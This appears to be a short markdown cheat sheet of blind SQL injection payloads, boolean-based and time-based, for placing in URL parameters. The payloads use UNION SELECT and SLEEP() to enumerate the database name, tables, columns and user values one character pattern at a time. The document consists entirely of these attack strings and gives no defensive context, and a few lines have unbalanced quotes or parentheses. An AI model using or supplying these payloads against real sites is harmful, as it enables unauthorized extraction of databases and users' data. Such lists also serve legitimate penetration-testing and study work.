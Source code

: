 ## Blind SQLi (Boolean) ##

Change param in url. 

PARAM VALUE' union select 1,2,3;--

PARAM VALUE' union select 1,2,3 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select 1,2,3 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select 1,2,3 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select 1,2,3 from users where username like 'a% Will help get values from table and columns)

## Blind SQLi (Time) ##

Change param in url.

### TEST for SQLI Time Based ###

PARAM VALUE' union select SLEEP(5),2;--

PARAM VALUE' union select SLEEP(5),2 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select SLEEP(5),2 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select SLEEP(5),2 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select SLEEP(5),2 from users where username like 'a% Will help get values from table and columns)
